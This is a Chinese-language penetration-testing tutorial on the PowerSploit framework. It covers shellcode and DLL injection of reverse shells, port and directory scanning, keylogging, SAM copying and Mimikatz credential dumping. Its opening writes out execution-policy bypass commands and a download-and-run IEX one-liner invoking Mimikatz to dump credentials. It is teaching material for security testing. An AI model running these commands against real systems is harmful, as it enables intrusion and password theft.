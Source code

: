 # 内网渗透利器之PowerSploit

## **0x00 过渡**

之前提到当在执行powershell脚本时，由于默认策略的缘故，是会报错的，因此也出现了几种逃过的情况：

本地权限绕过：PowerShell.exe -ExecutionPolicy Bypass -File xxx.ps1，此外还可以通过本地隐藏权限进行绕过：PowerShell.exe -ExecutionPolicy Bypass -NoLogo –NonInteractive -NoProfile -WindowStyle Hidden -File xxx.ps1

IEX下载远程PS1脚本权限绕过执行（在本例PowerSploit框架利用中会使用）：powershell.exe "IEX \(New-Object Net.WebClient\).DownloadString\('http://网址/对应脚本名称'\); Invoke-Mimikatz -DumpCreds"

## **0x01 PowerSploit简介**

PowerSploit是Microsoft PowerShell模块的集合，可用于在评估的所有阶段帮助渗透测试人员。PowerSploit由以下模块和脚本组成：

![11.jpg](https://image.3001.net/images/20180516/15264544315034.jpg!small)

本次将会展示CodeExecution模块、Recon模块、Exfiltration模块以及Privesc模块的部分主流的脚本的渗透实例。

## **0x02 利用PowerSploit框架进行渗透的一些实例**

### **0x00 准备工作**

a\) 在kali（因为kali上集成很多好用的工具以及环境）上使用命令`git clone` [`https://github.com/mattifestation/PowerSploit.git`](https://github.com/mattifestation/PowerSploit.git) 下载最新版的PowerSploit脚本文件；或者直接进入https：//github.com/PowerShellMafia/PowerSploit 下载脚本文件。

b\) 打开一个web服务，并将下载的脚本文件放入web中，供我们通过IEX调用。

c\) 打开kali中的metasploit，本次的测试有部分需要通过metasploit结合完成。

### **0x01 CodeExecution模块**

#### **a\) 调用Invoke-Shellcode将shellcode注入到本地的Powershell。**

1）打开一个web服务，并将PowerSploit脚本添加到web中，以便后续实验中可通过IEX进行下载调用（此处我在kali中开启apache2服务）。

![&#x670D;&#x52A1; 1.png](https://image.3001.net/images/20180516/15264546436086.png!small)

![&#x670D;&#x52A1; 2.png](https://image.3001.net/images/20180516/15264546589330.png!small)

2）利用msfvenom生成一个反弹木马，以供invoke-shellcode注入，同样生成的反弹马放入web中。

![web.png](https://image.3001.net/images/20180516/15264546923696.png!small)

3）这里为了更好的展现效果，因此直接在powershell中进行操作，通过IEX下载调用invoke-shellcode以及生成的反弹马。

![fantan.png](https://image.3001.net/images/20180516/15264547188192.png!small)

4）在kali中打开metasploit并设置好监听（只需设置PAYLOAD、LHOST、LPORT）。

![jianting  1.png](https://image.3001.net/images/20180516/15264547541467.png!small)

![jianting  2.png](https://image.3001.net/images/20180516/15264547718571.png!small)

5）在powershell中调用invoke-shellcode（可通过help命令来查询具体操作以及例子）。

![&#x4F8B;&#x5B50;.png](https://image.3001.net/images/20180516/15264548062575.png!small)

注意：若此处关闭powershell，那么连接也将终断，因为承载木马的powershell被关闭了。

#### **b\) 调用invoke-shellcode将shellcode注入到指定的进程中。**

1）前面步骤和a的步骤一致，唯一不同的就是在最后的命令上，首先，查看我们需要注入的进程，建议可注入到系统的进程，因为一旦进程关闭，那么监听也将终断，因此系统进程一般不会被关闭，注意：不能注入到像360等驱动中，不然会被强制关闭。

![&#x5173;&#x95ED; 1.png](https://image.3001.net/images/20180516/15264549189704.png!small)

![&#x5173;&#x95ED; 2.png](https://image.3001.net/images/20180516/1526454939363.png!small)

注意：和a类似的，若关闭notepad进程，则连接中断。

#### **c\) 调用invoke-dllinjection将DLL注入到进程中。**

1）通过msfvenom生成DLL的反弹木马，并下载到目标主机中（为了方便，直接将dll文件下载至powershell运行的桌面），在实际环境中，也可以通过该方法进行传输dll文件。

![&#x6587;&#x4EF6; 1.png](https://image.3001.net/images/20180516/15264550508536.png!small)

![&#x6587;&#x4EF6; 2.png](https://image.3001.net/images/20180516/15264550682077.png!small)

2）设置好监听。

![&#x76D1;&#x542C;  1.png](https://image.3001.net/images/20180516/15264551363820.png!small)

![&#x76D1;&#x542C;  2.png](https://image.3001.net/images/20180516/15264551557846.png!small)

3）通过IEX调用下载并调用invoke-dllinjection，将DLL文件直接注入到notepad进程中。

![&#x8FDB;&#x7A0B;  1.png](https://image.3001.net/images/20180516/15264553347193.png!small)

![&#x8FDB;&#x7A0B; 2.png](https://image.3001.net/images/20180516/15264558717719.png!small)

![&#x8FDB;&#x7A0B; 3.png](https://image.3001.net/images/20180516/15264558888009.png!small)

### **0x02 Recon模块**

#### a\) 调用invoke-Portscan扫描内网主机的端口。

1）通过IEX下载并调用invoke-portscan。

![x  1.png](https://image.3001.net/images/20180516/15264560675426.png!small)

![x  2.png](https://image.3001.net/images/20180516/15264561015771.png!small)![x  3.png](https://image.3001.net/images/20180516/15264561148792.png!small)

注意：这里用的全端口扫描，不建议这么做，耗费时间太长，可以扫描一些常规端口。

#### **b\) 调用Get-HttpStatus扫描目标站点的目录。**

1）通过IEX下载并调用Get-HttpStatus。

![s  1.png](https://image.3001.net/images/20180516/15264566742305.png!small)

![s  2.png](https://image.3001.net/images/20180516/15264566911137.png!small)![s  3.png](https://image.3001.net/images/20180516/15264567062842.png!small)![s  4.png](https://image.3001.net/images/20180516/1526456719548.png!small)

#### **c\) 调用Invoke-ReverseDnsLookup扫描内网主机的ip对应的主机名。**

1）通过IEX下载并调用Invoke-ReverseDnsLookup。

![up   1.png](https://image.3001.net/images/20180516/15264568918002.png!small)

![up   2.png](https://image.3001.net/images/20180516/15264569104083.png!small)

### **0x03 Exfiltration模块**

**a\) 调用Get-Keystrokes记录用户的键盘输入。**

1）通过IEX下载并调用Get-Keystrokes。

![s  1.png](https://image.3001.net/images/20180516/1526457035225.png!small)

![s  2.png](https://image.3001.net/images/20180516/15264570651007.png!small)

**b\) 调用Invoke-NinjaCopy复制一些系统无法复制的文件如sam文件。**

1）通过IEX下载并调用Get-NinjaCopy。

正常情况下复制：

![fuzhi  1.png](https://image.3001.net/images/20180516/15264572186562.png!small)

通过Invoke-NinjaCopy进行复制：

![fuzhi  2.png](https://image.3001.net/images/20180516/15264572401322.png!small)

注意：这个脚本是要有管理员权限下才可以正常执行，否则会报错，毕竟是要拷贝系统文件，只是它做了管理员做不了的事。

**c\) 调用Invoke-Mimikatz（内网神器）抓取内存中的明文密码。**

1）通过IEX下载并调用Invoke-Mimikatz。

![tz  1.png](https://image.3001.net/images/20180516/15264574123108.png!small)

![tz  2.png](https://image.3001.net/images/20180516/15264574396962.png!small)

注意：这个脚本是要有管理员权限下才可以正常执行，否则会报错，毕竟涉及到密码之类的敏感信息，哪怕是管理员想看到明文的，也是很难实现的。

**0x03 小结**

 PowerSploit也许有些模块有些脚本看似用处很小，但是我认为其实不然，可能是我们的经验阅历不高，并未遇到一个适合的环境或者时机。不过总体感觉PowerShell内网渗透还是很强大的，它不仅可以免杀执行，还可以毫无痕迹地在电脑中进行操作。

 对于PowerShell内网渗透就这些了，也许不够多，但是小编想将一句话送给大家，是一个大神讲过的----“工具就像武器，要多用多练；要在实践中灵活利用，不能死板照搬”，想学好一个工具，多进行运用远比停留在理论学习来得强。最后希望大家能够在PowerShell内网渗透中获取更多的“宝藏”。

